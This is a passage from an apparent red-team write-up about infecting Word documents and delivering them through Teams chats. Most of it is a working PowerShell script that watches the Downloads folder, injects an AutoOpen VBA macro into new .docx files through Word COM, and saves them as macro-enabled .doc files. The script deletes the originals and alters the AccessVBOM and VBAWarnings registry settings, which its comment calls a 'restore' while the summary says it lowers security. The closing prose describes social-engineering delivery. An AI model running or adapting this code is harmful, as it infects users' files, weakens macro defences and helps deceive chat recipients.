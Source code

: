 ```Powershell
            # Access the first module in the VBA project and add the macro code.
            $WordModule = $Document01.VBProject.VBComponents(1) 
            $WordModule.CodeModule.AddFromString($macroCode)
            
            # Define the format for saving the document as a macro-enabled file.
            $docformat = [Microsoft.Office.Interop.Word.WdSaveFormat]::wdFormatFlatXMLMacroEnabled

            # Change the file extension from ".docx" to ".doc".
            $docname = $wordPath -replace "docx", "doc"

            # Save the modified document as a macro-enabled Word document.
            $Document01.SaveAs($docname, $docformat)

            # Restore the original VBA security settings to their default state.
            New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\$WordVersion\Word\Security" -Name AccessVBOM -PropertyType DWORD -Value 0 -Force | Out-Null
            New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\$WordVersion\Word\Security" -Name VBAWarnings -PropertyType DWORD -Value 0 -Force | Out-Null
            
            # Notify that the file has been "infected" with the macro.
            Write-Host "[+] File Infected!"

            # Close the Word document.
            $Word01.Documents.Close()

            # Quit the Word application.
            $Word01.Quit()

            # Release the COM object to free up system resources.
            [System.Runtime.Interopservices.Marshal]::ReleaseComObject($Word01) | out-null
            # Remove the original document from the Downloads directory.
            Remove-Item $wordPath
        }
    }
}
```

- **Loop Execution**: The code continuously runs within a while ($true) loop, constantly checking for new .docx files in the Downloads directory.
- **Word Automation**: It automates Microsoft Word using COM to add a macro to the detected .docx files.
- **Security Adjustments**: The code temporarily lowers macro security settings to allow programmatic access to the VBA project and suppresses macro warnings.
- **Macro Insertion**: A simple macro (AutoOpen) is inserted, which displays a message box when the document is opened.
- **File Handling**: The document is saved as a macro-enabled Word document (.doc), and the original .docx file is deleted after the operation.
- **Resource Management**: COM objects are properly released.

We have a last challenge to accomplish our goal. When a user sends a file in a chat, the regular behavior of the user is to click on the file link, and the teams will render the document on the browser. Running macros in Word on the browser is not possible because the browser version of Word, known as **Word for the Web** or **Word Online**, is designed to be lightweight and accessible across different platforms and devices. This design prioritizes simplicity, security, and cross-platform compatibility, which imposes certain limitations compared to the desktop version of Word.
### Extending the Social Engineering Capabilities
